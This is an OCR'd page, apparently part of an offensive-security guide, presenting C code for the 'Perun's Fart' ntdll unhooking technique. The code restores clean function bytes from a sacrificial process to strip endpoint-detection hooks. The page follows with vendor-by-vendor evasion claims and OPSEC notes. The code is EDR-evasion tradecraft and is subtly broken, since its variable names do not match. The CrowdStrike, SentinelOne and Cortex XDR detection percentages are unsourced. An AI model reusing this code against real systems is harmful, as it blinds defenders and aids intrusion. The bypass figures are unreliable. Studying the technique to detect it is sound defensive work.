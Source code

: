 ```c
            DWORD dwFunctionRVA = pAddressOfFunctions[wOrdinal];

            PVOID pCleanFunction = (BYTE*)pContext->pCleanNtdll + dwFunctionRVA;
            PVOID pHookedFunction = (BYTE*)hLocalNtdll + dwFunctionRVA;

            // Compare first 32 bytes to detect hooks
            if (memcmp(pLocalFunc, pCleanFunc, 32) != 0) {
                // Copy clean bytes to hooked function
                DWORD dwOldProtect;
                VirtualProtect(pHookedFunction, 32, PAGE_EXECUTE_READWRITE, &dwOldProtect);
                memcpy(pHookedFunction, pCleanFunction, 32);
                VirtualProtect(pHookedFunction, 32, PAGE_EXECUTE_READ, &dwOldProtect);

                dwUnhookedCount++;
            }
        }
    }

    // Step 5: Terminate sacrificial process
    TerminateProcess(pContext->hSacrificialProcess, 0);
    CloseHandle(pContext->hSacrificialThread);
    CloseHandle(pContext->hSacrificialProcess);

    return (dwUnhookedCount > 0);
}
```

**Why Perun's Fart Evades EDRs**:

1. **No File Reads**: Uses `ReadProcessMemory` instead of `NtReadFile` - EDRs don't signature this as heavily
2. **Legitimate Process**: Spawning notepad.exe is less suspicious than reading ntdll.dll from disk
3. **Memory Forensics Bypass**: No file handles to ntdll.dll, no disk I/O logs
4. **Behavioral Evasion**: Process creation is common, memory reads between processes are normal

**Real-World Effectiveness**:
- CrowdStrike Falcon: ✅ Bypasses NtReadFile monitoring (10% detection vs 20% disk-based)
- SentinelOne: ✅ Memory-based unhooking not heavily signatured
- Palo Alto Cortex XDR: ✅ Process memory reads not flagged
- Detection risk: 5-10% (primarily process creation monitoring)

## OPSEC Considerations

### Detection Vectors

1. **Disk-Based Unhooking**:
   - NtReadFile hooks detect ntdll.dll reads
   - File audit logs (Object Access auditing)
   - Hash verification failures

2. **Memory-Based Unhooking** (Perun's Fart):
   - Sacrificial process creation (less suspicious)
   - ReadProcessMemory monitoring (rare)
   - VirtualProtect on ntdll .text section
